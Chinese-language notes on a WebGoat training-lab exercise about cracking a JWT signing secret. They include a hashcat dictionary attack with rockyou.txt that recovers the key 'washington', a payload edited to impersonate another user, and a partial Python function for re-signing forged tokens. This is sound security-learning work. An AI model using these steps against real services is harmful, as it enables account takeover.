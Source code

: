 第一题选报错，第2题选正确调用
ok
![](../images/Pasted%20image%2020241204200738.png)

### 2.5 JWT令牌破解

给的令牌

```
eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTczMzI3MjY5NCwiZXhwIjoxNzMzMjcyNzU0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.h1puAT9Q6Suwip5l1Z8XBDTTFXg-G97CCmpR8aH3r9U

```

刚刚就爆破了密码，这次还是和上一次一样

看一下令牌信息
![](../images/Pasted%20image%2020241205101702.png)

使用的是HS256，信息需要改用户名为webgoat

```
{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1733272694,"exp":1733272754,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}
```

破解命令

```shell
hashcat -m 16500 -a 0 eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTczMzI3MjY5NCwiZXhwIjoxNzMzMjcyNzU0LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.h1puAT9Q6Suwip5l1Z8XBDTTFXg-G97CCmpR8aH3r9U /usr/share/wordlists/rockyou.txt
```

![](../images/Pasted%20image%2020241205101954.png)

密钥是`washington`

解出来的jwt还是要求时间戳
![](../images/Pasted%20image%2020241205102624.png)

修改一下时间戳iat和过期时间exp就可以了

最后使用的代码


```python
def generate_token(secret_key, header, payload):  
    alg_str = header.get('alg')  
    print(alg_str)  
    head_str = json.dumps(header).replace(" ", "")  
    payload_str = json.dumps(payload).replace(" ", "")  
    print(head_str.encode('utf-8'))  
    print(payload_str.encode('utf-8'))  
    # 编码头部和有效载荷  
    encoded_header = base64url_encode(head_str.encode('utf-8'))  
    encoded_payload = base64url_encode(payload_str.encode('utf-8'))  
  
    # 创建签名  
    if alg_str == 'HS256':  
        signature = hmac.new(secret_key.encode('utf-8'), f"{encoded_header}.{encoded_payload}".encode('utf-8'), hashlib.sha256).digest()  
    else:  
        signature = hmac.new(secret_key.encode('utf-8'), f"{encoded_header}.{encoded_payload}".encode('utf-8'), hashlib.sha512).digest()  
  
```